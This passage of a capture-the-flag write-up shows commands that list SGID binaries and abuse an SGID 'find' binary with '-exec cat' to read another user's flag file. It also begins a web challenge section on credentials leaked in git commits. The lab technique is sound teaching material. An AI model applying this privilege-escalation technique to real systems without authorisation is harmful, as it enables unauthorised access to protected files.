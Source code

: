 ```
   249143      0 -rw-r--r--   1 root     root            0 Oct 27 17:55 /proc/sys/net/ipv6/fib_notify_on_flag_change
4026532031      0 -r--------   1 root     root            0 Oct 27 17:55 /proc/kpageflags
```

`find` have `sgid` set with user `patch`

```bash
user@finders-keepers-ee7c97f302618b76-58588bf8f6-qr7vp:~$ find / -type f -perm -2000 -ls 2>/dev/null
   409473     72 -rwxr-sr-x   1 root     shadow      72184 Nov 24  2022 /usr/bin/chage
   409523     24 -rwxr-sr-x   1 root     shadow      23136 Nov 24  2022 /usr/bin/expiry
   409724     24 -rwxr-sr-x   1 root     tty         22904 Feb 21  2022 /usr/bin/wall
   527380    276 -rwxr-sr-x   1 root     patch      282088 Mar 23  2022 /usr/bin/find
   417681    288 -rwxr-sr-x   1 root     _ssh       293304 Aug 24 13:40 /usr/bin/ssh-agent
   414294     28 -rwxr-sr-x   1 root     shadow      26776 Feb  2  2023 /usr/sbin/unix_chkpwd
   414265     24 -rwxr-sr-x   1 root     shadow      22680 Feb  2  2023 /usr/sbin/pam_extrausers_chkpwd
```

Use `find` to cat the flag

```bash
user@finders-keepers-8b0326054b0e817f-5b855b966d-qmcsz:~$ find /home/patch/flag.txt -exec cat {} \;
flag{e4bd38e78379a5a0b29f047b91598add}
```
# Web

## Unhackable Andy

### Leaked credentials in git commits

This dude claims he is unhackable

![](attachment/cf96af5a2fd438fa399599b4ef39252f.png)
